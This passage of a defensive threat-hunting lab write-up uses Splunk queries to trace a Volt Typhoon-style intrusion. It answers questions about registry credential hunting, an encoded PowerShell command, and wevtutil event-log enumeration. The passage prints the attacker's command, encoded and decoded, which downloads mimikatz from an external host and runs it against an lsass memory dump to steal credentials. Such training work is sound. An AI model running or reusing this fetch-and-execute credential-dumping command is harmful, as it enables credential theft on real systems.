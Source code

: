 ### 9. Using reg query, Volt Typhoon hunts for opportunities to find useful credentials. What three pieces of software do they investigate?
R= `openssh`, `putty`, `realvnc`

I searched for free text `reg query`, as the field that contained the full command wasn't parsed, I leveraged the `reg` built-in Splunk command to create a new field named `raw` leveraging `Named Capture Groups` that matches the entire command. As seen, the software investigated was `openssh`, `putty`, `realvnc`
```
index=* "*reg query*" 
| rex field=_raw "(?<cmd>reg query\s.*)"
| table cmd // show only the field cmd
| reverse
```
![image](https://github.com/user-attachments/assets/98f51e4d-14f6-4201-a64b-bfe59363a5c6)
### 10. What is the full decoded command the attacker uses to download and run mimikatz?
R= `Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait`

I wasn't sure where to start here, but I supposed that there was an encoded  a powershell command executed somewhere.
Knowing this I started by parsing the entire value of the `CommandLine=` raw field, and skimmed through all the values found that end in `=`.
Query used:
```
index=* sourcetype!=adss sourcetype!=wmic  | rex field=_raw "CommandLine=(?<cmd>.*=)" 
| stats count by cmd 
| sort -count
```

Malicious command
```
-exec bypass -W hidden -nop -E SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cDovL3ZvbHR5cC5jb20vMy90bHovbWltaWthdHouZXhlIiAtT3V0RmlsZSAiQzpcVGVtcFxkYjJcbWltaWthdHouZXhlIjsgU3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFRlbXBcZGIyXG1pbWlrYXR6LmV4ZSIgLUFyZ3VtZW50TGlzdCBAKCJzZWt1cmxzYTo6bWluaWR1bXAgbHNhc3MuZG1wIiwgImV4aXQiKSAtTm9OZXdXaW5kb3cgLVdhaXQ=
```
![image](https://github.com/user-attachments/assets/d27c1a23-d5dc-4167-af28-da0a71718707)
Using CyberChef, I decoded the command.
```
Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
```
![image](https://github.com/user-attachments/assets/2cd24c63-e1fc-4d63-89d5-af24c6e60595)

# Discovery & Lateral Movement
### 11. The attacker uses wevtutil, a log retrieval tool, to enumerate Windows logs. What event IDs does the attacker search for?
R= `4624` `4625` `4769`
